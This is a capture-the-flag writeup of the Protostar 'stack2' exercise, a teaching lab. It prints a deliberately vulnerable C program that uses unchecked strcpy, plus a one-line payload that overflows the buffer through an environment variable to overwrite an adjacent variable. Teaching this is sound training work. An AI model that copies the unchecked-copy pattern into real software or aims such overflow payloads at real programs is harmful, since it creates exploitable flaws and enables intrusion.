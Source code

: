 ```yaml
---
layout: post
title: Protostar Writeup - stack2
updated: 2018-07-26 21:00
tags: [ctf, binary exploit, protostar, tech]
---
```


## Protostar - stack2

The aim of this challenge is to again change the modified variable, except that this one has a slight change.
We need to set an environment variable called "GREENIE", whose value will be copied into buffer using the "strcpy()" method.
Here's the code:

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
{% endhighlight %}

We need to some how get the value from buffer into the "modified" variable. So this is a standard stack overflow attack.
Now the question is how do we overflow the stack? The "strcpy()" method looks like the only thing we can exploit.
So lets take a look at the man pages. We find what we're looking for and we don't have to look far.

> Beware of buffer overruns!

This confirms that we will be exploiting this method. First things first. We need the buffer length.
From the code we see that it's 64 bytes, something familiar we've seen in the previous problem.
Our padding is therefore 64 bytes and another thing is the value which we need to set. This is "0x0d0a0d0a".
Keep in mind that this will have to be written in the little endian format.
Here's what our environment variable will look like.

{% highlight shell %}
$ export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
{% endhighlight %}

After setting the environment variable, let's check whether it works.

{% highlight shell %}
$ ./stack2
you have correctly modified the variable
{% endhighlight %}

That was simple, since we had some intuition from the previous exercises. That's why the Protostar challenge is a good place to start.
Everything is organised. So each level depends on knowledge obtained in the previous levels.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
